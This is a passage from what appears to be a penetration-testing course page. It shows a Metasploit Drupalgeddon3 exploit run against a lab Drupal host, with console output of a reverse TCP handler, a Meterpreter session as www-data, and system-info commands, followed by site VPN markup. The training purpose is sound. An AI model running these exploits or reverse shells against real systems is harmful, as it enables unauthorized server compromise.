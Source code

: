 
Exploit target:

   Id  Name
   --  ----
   0   User register form with exec
</code></pre>
<p>If successful, we will obtain a reverse shell on the target host.</p>
<pre><code class="language-shell-session">msf6 exploit(multi/http/drupal_drupageddon3) &gt; exploit

[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] Token Form -&gt; GH5mC4x2UeKKb2Dp6Mhk4A9082u9BU_sWtEudedxLRM
[*] Token Form_build_id -&gt; form-vjqTCj2TvVdfEiPtfbOSEF8jnyB6eEpAPOSHUR2Ebo8
[*] Sending stage (39264 bytes) to 10.129.42.195
[*] Meterpreter session 1 opened (10.10.14.15:4444 -&gt; 10.129.42.195:44612) at 2021-08-24 12:38:07 -0400

meterpreter &gt; getuid

Server username: www-data (33)


meterpreter &gt; sysinfo

Computer    : app01
OS          : Linux app01 5.4.0-81-generic #91-Ubuntu SMP Thu Jul 15 19:09:17 UTC 2021 x86_64
Meterpreter : php/linux
</code></pre>
<hr/>
<h2>Onwards</h2>
<p>We have enumerated and attacked some of the most prevalent CMS': WordPress, Drupal, and Joomla. Next, let's move on to Tomcat, which has been putting a smile on the face of pentesters for years.</p>
<div class="my-3 p-3 vpn-switch-card" id="vpn-switch">
<p class="font-size-14 color-white mb-0">VPN Servers</p>
<p class="font-size-13 mb-0">
<i class="fas fa-exclamation-triangle text-warning"></i><span class="color-white ml-1">Warning:</span> Each
                    time you "Switch",
                    your connection keys are regenerated and you must re-download your VPN connection file.
                </p>
<p class="font-size-13 mb-0">
                    All VM instances associated with the old VPN Server will be terminated when switching to
                    a new VPN server. <br/>
                    Existing PwnBox instances will automatically switch to the new VPN server.</p>
<div class="row mb-3">
<div class="col-12 mt-2">
<div class="d-none justify-content-center vpn-loader">
<div class="spinner-border text-success" role="status">
<span class="sr-only">Switching VPN...</span>
</div>
</div>
<select aria-label="vpn server" class="selectpicker custom-form-control vpnSelector badge-select" title="Select VPN Server">
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;US Academy 6 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt; &lt;span class='recommended'&gt; &lt;img src='/images/sparkles-solid.svg'/&gt;Recommended&lt;/span&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="30" value="17">US Academy 6</option>
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;US Academy 5 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="31" value="16">US Academy 5</option>
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;US Academy 4 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="32" value="13">US Academy 4</option>